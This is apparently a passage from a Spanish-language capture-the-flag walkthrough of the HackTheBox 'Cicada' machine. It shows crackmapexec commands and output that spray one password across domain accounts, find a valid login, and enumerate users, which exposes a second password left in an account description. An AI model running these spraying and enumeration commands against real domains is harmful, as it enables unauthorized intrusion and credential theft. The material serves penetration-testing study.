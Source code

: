 ```ruby
❯ crackmapexec smb 10.10.11.35 -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```

Vemos que el usuario Michael tiene esa contraseña, podemos enumerar mas usuarios con esas credenciales.

```ruby
❯ crackmapexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] Enumerated domain user(s)
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\emily.oscars                   badpwdcount: 4 desc: 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious                 badpwdcount: 3 desc: Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\michael.wrightson              badpwdcount: 0 desc: 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\sarah.dantelia                 badpwdcount: 3 desc: 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\john.smoulder                  badpwdcount: 3 desc: 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\krbtgt                         badpwdcount: 3 desc: Key Distribution Center Service Account
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Administrator                  badpwdcount: 13 desc: Built-in account for administering the computer/domain
```
Vemos que el usuario `David`  tiene su contraseña en la descripción. Usando crackmapexec podemos lisatr los recursos compartidos.
